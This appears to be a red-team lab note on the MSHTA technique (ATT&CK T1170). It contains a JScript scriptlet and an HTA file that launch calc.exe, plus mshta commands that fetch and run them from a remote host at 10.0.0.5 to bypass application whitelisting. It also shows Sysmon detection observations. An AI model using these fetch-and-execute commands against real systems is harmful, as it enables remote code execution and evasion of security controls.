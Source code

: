 ```yaml
---
description: MSHTA code execution - bypass application whitelisting.
---
```


# T1170: MSHTA

## Code

{% code-tabs %}
{% code-tabs-item title="http://10.0.0.5/m.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>
<registration description="Desc" progid="Progid" version="0" classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"></registration>

<public>
    <method name="Exec"></method>
</public>

<script language="JScript">
<![CDATA[
	function Exec()	{
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
	}
]]>
</script>
</scriptlet>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Execution

```bash
# from powershell
/cmd /c mshta.exe javascript:a=(GetObject("script:http://10.0.0.5/m.sct")).Exec();close();
```

## Observations

As expected, calc is spawned by mshta. Also, mhsta and cmd exit almost immediately after invoking the calc.exe.

![](../.gitbook/assets/mshta-calc.png)

Look at sysmon for mshta establishing network connections:

![](../.gitbook/assets/mshta-connection.png)

Also, suspicious commandlines:

![](../.gitbook/assets/mshta-commandline.png)

## Additionally

The hta file can be invoked like so:

```bash
mshta.exe http://10.0.0.5/m.hta
```

![](../.gitbook/assets/mshta-calc2.png)

or by navigating to the file itself, launching it and clicking run:

![](../.gitbook/assets/mshta-url.png)

{% code-tabs %}
{% code-tabs-item title="http://10.0.0.5/m.hta" %}
```markup
<html>
<head>
<script language="VBScript"> 
    Sub RunProgram
        Set objShell = CreateObject("Wscript.Shell")
        objShell.Run "calc.exe"
    End Sub
RunProgram()
</script>
</head> 
<body>
    Nothing to see here..
</body>
</html>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1170\",\"type\":\"link\",\"title\":\"Mshta - ATT&CK for Enterprise\"}" %}

